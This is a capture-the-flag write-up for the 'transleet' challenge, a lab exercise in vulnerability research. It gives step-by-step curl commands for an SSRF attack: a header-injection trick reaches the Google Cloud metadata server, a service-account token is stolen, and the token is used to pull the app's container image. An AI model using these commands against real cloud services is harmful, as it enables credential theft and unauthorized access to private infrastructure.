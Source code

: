 # Writeup - transleet

This challenge is intended to demonstrate a well known vulnerability that is often present when an application is vulnerable to SSRF and is run in the cloud (mainly aws and gcloud but it may work for others too).

Upon navigating to the site we are presented with just a text box with a placeholder of `https://transleet.chal.hackmac.xyz/manifesto.txt?H="Accept=text/html"`.
If we submit this value we are presented with the hackers manifesto translated into leetspeak.

Visiting https://transleet.chal.hackmac.xyz/manifesto.txt?H="Accept=text/html" presents us with the hackers manifesto as well except in plain english this time.

If we try and put another url in the box such as http://example.com we can see that we get back the translated source code of example.com's main page.

Now let's try a [request bin](https://requestbin.io/) of our own.
Once we catch that request we can see the following headers are present
```
Cloudfront-Is-Smarttv-Viewer: false
Host: requestbin.io
X-Request-Id: bd984a0a-63d5-4f24-baa6-60b95d614f87
Cloudfront-Viewer-Country: US
Cloudfront-Is-Tablet-Viewer: false
Via: 1.1 5ffea377a15bf1a86dfde6a87b4a0a36.cloudfront.net (CloudFront), 1.1 vegur
Cloudfront-Forwarded-Proto: https
Accept: */*
Total-Route-Time: 0
Cloudfront-Is-Desktop-Viewer: true
X-Amz-Cf-Id: 21NwAKnzNzmBRJ7xFkD7wJIOVZU76C-aR9oLDOU6sDwHFw5QA2hVuA==
User-Agent: node-fetch
Cloudfront-Is-Mobile-Viewer: false
Connection: close
Accept-Encoding: gzip,deflate,br
Connect-Time: 0
```

Something to notice is the User-Agent header of node-fetch. Looks like the server is making live requests on our behalf. So we may have a SSRF vulnerability.

Another thing to notice is where the challenge is running.
If we perform a dns lookup on the challenge domain we can see that it is hosted on gcloud.
```
❯ dig transleet.chal.hackmac.xyz

; <<>> DiG 9.10.6 <<>> transleet.chal.hackmac.xyz
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 18316
;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;transleet.chal.hackmac.xyz.	IN	A

;; ANSWER SECTION:
transleet.chal.hackmac.xyz. 41	IN	CNAME	ghs.googlehosted.com.
ghs.googlehosted.com.	249	IN	A	142.250.204.19

;; Query time: 89 msec
;; SERVER: 192.168.0.1#53(192.168.0.1)
;; WHEN: Wed Jul 07 14:48:53 AEST 2021
;; MSG SIZE  rcvd: 105
```

So we can try and query the internal gcloud metadata server for the applications service-account token.
The metadata server is accessible internally at 169.254.169.254 as well as metadata.google.internal.

Let's try
```
curl 'https://transleet.chal.hackmac.xyz/transleet' \
	-H 'Content-Type: multipart/form-data; boundary=---------------------------293279164839524248663009936876' \
	--data-binary $'-----------------------------293279164839524248663009936876\r\nContent-Disposition: form-data; name="q"\r\n\r\nhttp://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token\r\n-----------------------------293279164839524248663009936876--\r\n'
```

We get back
```
{"text":"M1551n6 r3qu1r3d h34d3r: M374d474-phl4v0r\n"}
```

Looks like we need to add the `Metadata-flavor: Google` header to our requests. This is documented [here](https://cloud.google.com/compute/docs/storing-retrieving-metadata#querying) and is a relatively new feature, presumably designed to help fight against these types of SSRF attacks.

Well how do we control the headers that the server sends? If we remember earlier, there was a weird looking query parameter in the placeholder value `H="Accept=text/html"` which looks suspiciously just like a HTTP header. Maybe we can use this to control what headers the server sends?

Let's try first to our request bin:
Submitting `https://requestbin.io/12c0dyy1?H=test=yes` in the submission box yields us with the following request in our request bin
```
Cloudfront-Is-Smarttv-Viewer: false
Host: requestbin.io
X-Request-Id: 73af8c98-c126-4051-a912-553e17d7d6f5
Cloudfront-Viewer-Country: US
Cloudfront-Is-Tablet-Viewer: false
Test: yes
Via: 1.1 90abbcc969ab958776c0b1211c74eea9.cloudfront.net (CloudFront), 1.1 vegur
Cloudfront-Forwarded-Proto: https
Accept: */*
Total-Route-Time: 0
Cloudfront-Is-Desktop-Viewer: true
X-Amz-Cf-Id: 38Z5BIIpZktPz2u2DJlN_BrSZ0fy-uIEoQgIbvMhFpPeM0zsy0kqSw==
User-Agent: node-fetch
Cloudfront-Is-Mobile-Viewer: false
Connection: close
Accept-Encoding: gzip,deflate,br
Connect-Time: 0
```

Notice the `Test: yes` header! So we can use this to query the internal metadata API.
Let's get the service-account token and see what we can do.

## Get service account token
```
curl 'https://transleet.chal.hackmac.xyz/transleet' -H 'Content-Type: multipart/form-data; boundary=---------------------------293279164839524248663009936876' --data-binary $'-----------------------------293279164839524248663009936876\r\nContent-Disposition: form-data; name="q"\r\n\r\nhttp://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token?H=Metadata-flavor=Google\r\n-----------------------------293279164839524248663009936876--\r\n'

{"text":"{\"access_token\":\"ya29.c.KqEBBgjlYJSjml6qyzxGG2DdGIw_2xuWubk70XYFi4hZSAkLyRftOKxy7qx0R_Dl6b_JnFKWbbdfvtzcZgJ0NwBxoDP_ezQHQO58gFdLmIP4_O1SY8uwFrRIeXWamacUIfxAM2o3o_4ehjKiqhunzzYUOuwFZCckhG6GgrdDj-yMYcct1Unm_f56Xx99WvFVcJ0da4fvsjPVWoJdaAI_K84PTDc\",\"expires_in\":1799,\"token_type\":\"Bearer\"}"}*
```

Okay now that we've got the service account token we can check to see if the project has any container images that we can try to pull down and inspect the source code locally.

## Get project name - transleet
`curl https://iam.googleapis.com/v1/projects/728253287091/serviceAccounts\?alt\=json\&pageSize\=100 -H "Authorization: Bearer ya29.c...`

## Get images
`curl https://gcr.io/v2/transleet/tags/list -H "Authorization: Bearer ya29.c...`

## Docker login
`docker login -u oauth2accesstoken -p "$TOKEN" https://gcr.io`

## Docker pull
`docker pull gcr.io/transleet/transleet:latest`

Now we can run the container and print the flag

## Run image
`docker run -it gcr.io/transleet/transleet:latest bash`

```
root@9dce501826eb:/app# ls
README.md  build  flag	node_modules  package-lock.json  package.json  src  static  svelte.config.js  tsconfig.json
root@9dce501826eb:/app# cat flag
HACKMAC{5n34ky_m374d474.6006l3.1n73rn4l}
root@9dce501826eb:/app#
```
